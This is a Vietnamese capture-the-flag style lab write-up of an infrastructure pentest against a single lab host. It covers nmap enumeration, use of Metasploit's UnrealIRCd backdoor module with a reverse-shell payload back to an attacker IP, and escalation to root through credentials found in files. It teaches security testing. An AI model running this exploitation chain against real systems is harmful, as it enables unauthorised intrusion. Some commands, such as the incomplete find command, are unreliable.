# Guided Pentest: Infrastructure
## 1. Introduction

**1. Pentest là gì?**\
Penetration testing không phải là một kỹ năng đơn lẻ, mà là một cách tư duy.

Một pentester cần biết suy nghĩ theo nhiều góc nhìn:
- Như một programmer: để hiểu ứng dụng có thể lỗi ở đâu.
- Như một sysadmin: để phát hiện cấu hình sai.
- Như một SOC engineer: để hiểu hành động nào có thể bị phát hiện.
- Quan trọng nhất: phải nghĩ như một attacker.
> ? Câu hỏi quan trọng khi pentest:\
Họ đã bỏ sót điều gì?

**2. Building blocks**\
Trước khi vào bài này, người học đã có các building blocks — tức là các kiến thức/công cụ nền tảng.

Ví dụ:
- Scan port
- Enumeration
- Tìm service/version
- Phân tích lỗ hổng
- Khai thác lỗi
- Lấy shell
- Leo quyền

Bài này sẽ hướng dẫn cách kết hợp các phần đó lại step by step, giống cách một pentester thực tế làm.

**3. Infrastructure Penetration Test**

Infrastructure penetration test hay infra pentest là kiểm thử bảo mật các thiết bị trong mạng.\
Các thiết bị có thể gồm:
- Server
- Printer
- Firewall
- Router/Switch
- Bất kỳ thiết bị nào có network interface

Các thiết bị này có thể truy cập qua:
- Internet
- LAN

**4. Methodology cơ bản**
- Enumeration
- Vulnerability Analysis
- Initial Access: lấy quyền truy cập ban đầu vào target.
- Privilege Escalation
- Reporting

**5. Learning Objectives**

Mục tiêu của bài học:

- Sử dụng tool và kỹ thuật để scan một Linux host.
- Nghiên cứu phần mềm có lỗ hổng để tìm exploit dùng được.
- Enumeration file local trên Linux để leo quyền.

## 2. Enumeration
> ? Tại sao phải Thu thập thông tin (*Enumeration*)\
Trước khi làm gì đó với mục tiêu, ta phải thu thập thông tin ban đầu, nếu không, ta chỉ còn cách đoán mò

Vậy nên trước khi làm những bước khác, đầu tiên ta phải thu thập thông tin. Mục tiêu rất đơn giản: port nào đang mở, dịch vụ nào đang chạy, phiên bản nó đang chạy

**Scanning with Nmap**

`nmap -sV -sC -oN scan.txt 10.48.148.20`

- `-sV` (Scan Version): version
- `-sC`: Script Scan
- `-oN` (Output Normal): trích xuất ra 1 file



Sau khi Scan, ta thấy được 2 dịch vụ đang mở là `SSH` và `UnrealIRCd`(*1 dịch vụ kênh chat nhiều người*)

## 3. Vulnerable Analysis
Đừng nhìn kết quả scan như 1 văn bản thông thường. Hãy tự hỏi rằng dịch vụ này đã outdate chưa, có phần nào cấu hình lỗi không, dịch vụ này có tồn tại lỗ hổng chưa?\
Phân tích lỗ hổng là quá trình nhìn vào kết quả của bước lấy thông tin, và tự hỏi rằng ở đây có sai sót gì không?

Ta có thể tìm kiếm những cách khai thác có sẵn được công khai bằng cách tìm kiếm với từ khóa "Exploit/Lỗ hổng" cùng với phiên bản của dịch vụ

Chúng ta có thể dùng Google để tìm kiếm, nhưng có thể thể nó chỉ nói một cách chung chung, không cụ thể khiến ta khó có thể khai thác cho dù biết có lỗ hổng ở đó

Nếu dùng `Kali Linux`, ta có thể tìm kiếm cách khai thác lỗ hổng bằng `searchsploit`
```bash
searchsploit openssh
``` 



Những phiên bản này cũng quá cũ, nhưng việc tìm kiếm này có thể thu hẹp phạm vi cho quá trình khác, ví dụ dùng `nmap` 1 cách hiệu quả hơn


## 4. Initial Access
Để có được truy cập ban đầu, ta cần khai thác được lỗ hổng có trong thông tin lấy được\
Ta dùng framework `Metasploit` để có thể tự động khai thác mạnh mẽ\
Vào giao diện của `Metasploit` bằng 
```bash
msfconsole
```

Ta tìm kiếm cách khai thác lỗ hổng của `search exploit` bằng lệnh
```bash
search UnrealIRCd
```



Ta thấy được 1 exploit `exploit/unix/irc/unreal_ircd_3281_backdoor`\
Ta chọn nó bằng lệnh:
```bash
use 0
```

Sau đó xem những thiết lập ban đầu để có thể chạy bằng
```bash
show options
```



Ở đây ta thấy được những tham số cần thiết là `RHOSTS`(*Địa chỉ IP của target*) và `RPORT` cần được thiết lập, nhưng `RPORT` đã được biết sẵn nên chỉ cần thiết lập `RHOSTS`

```bash
set RHOSTS 10.48.148.20
```

Sau đó đến thiết lập payload:
```bash
show payloads
```



Vì chưa có được nhiều thông tin về mục tiêu, ta dùng payload `payload/cmd/unix/reverse` để hiệu quả nhất có thể:
```bash
set payload 6
```

Tiếp theo xem những thiết lập ban đầu bằng:
```bash
show options
```



Ta thấy 2 tham số bắt buộc là: `LPORT` và `LHOST`(_IP lắng nghe_)
```bash
set LHOST 192.168.175.58
```
Sau đó ta chạy payload bằng:
```bash
exploit
```



Ta đã thiết lập thành công `Reverse Shell`\
Bây giờ ta có thể thao tác ban đầu với nó



## 5. Post Exploitation(*Hậu khai thác*)
Ban đầu, việc chiếm được 1 target tưởng chừng là xong việc, nhưng thực ra đó mới chỉ là bước ban đầu, sau khi vào được máy thì ta cần phải **enumeration** bên trong để biết được: *Sau khi vào được máy còn có thể đi xa được bao nhiêu nữa?*

**Privilege Escalation**\
Trong bài Lab này, ta đã chiếm được 1 mục tiêu, mục tiêu bây giờ ta cần đạt được là leo thang lên quyền cao hơn\
Ta tìm kiếm các tên file có chưa `password` bằng:
```bash
find / -name 2>/dev/null
```



Ta lấy được thông tin `user/password` của tài khoản root ở file `/etc/passd`



Có 2 cách để có thể đăng nhập được vào `root`\
Cách 1: Dùng lệnh `su`


Cách 2: Dùng `SSH`
Ở bên trên ta đã quét được mục tiêu có mở dịch vụ `SSH` tại cổng `22`



## 6. Reporting
Báo cáo là thứ duy nhất khách hàng nhìn thấy từ công việc pentest của bạn.
Dù khai thác rất giỏi, nếu báo cáo tệ thì bài pentest cũng bị đánh giá tệ.
Một báo cáo tốt cần có phần dành cho quản lý, phần kỹ thuật, danh sách lỗ hổng, bằng chứng khai thác và khuyến nghị khắc phục.
Báo cáo là sản phẩm bàn giao quan trọng nhất, nên cần viết rõ ràng, đầy đủ và chuyên nghiệp.

## 7. Conclusion
Infra pentest giống với cách hacker thật tiếp cận mục tiêu: bắt đầu từ danh sách IP chưa biết gì.
Nhiệm vụ là tìm thông tin, phát hiện điểm yếu và khai thác chúng trong phạm vi cho phép.
Trong room này, tuy chỉ làm trên một IP nhưng đã đi qua đủ quy trình pentest cơ bản.
Các bước gồm: enumerate service, phân tích exploit, lấy foothold, rồi dùng kỹ năng Linux để tìm mật khẩu root.


 

